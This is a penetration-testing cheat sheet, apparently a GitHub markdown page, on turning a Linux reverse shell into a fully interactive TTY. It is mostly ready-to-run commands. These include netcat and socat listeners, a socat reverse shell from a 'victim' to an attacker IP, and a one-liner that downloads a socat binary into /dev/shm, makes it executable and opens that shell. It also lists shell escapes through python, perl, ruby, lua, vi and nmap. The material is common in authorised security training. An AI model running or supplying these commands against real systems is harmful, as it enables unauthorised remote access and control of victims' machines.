 # Upgrade a linux reverse shell to a fully usable TTY shell
> Note: To check if the shell is a TTY shell use the tty command.
## rlwrap
You can mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the **rlwrap** command.
```console
rlwrap nc -nlvp 8888
```
## python
```console
which python python2 python3    
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```
## socat
> Socat needs to be on both machines for this to work. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)
```bash
#Create Listener on attack platform:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#From Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444

#socat one-liner
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```
## Other
```console
echo os.system('/bin/bash')

/bin/sh -i

#perl
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"

# (From within IRB)
exec "/bin/sh"

# (From within vi)
:!bash

# (From within vi)
:set shell=/bin/bash:shell

# (From within nmap)
!sh

# In Kali or elsewhere
$ echo $TERM
$ stty -a

$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

# With script
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
            reset
reset: unknown terminal type unknown
Terminal type? screen

```
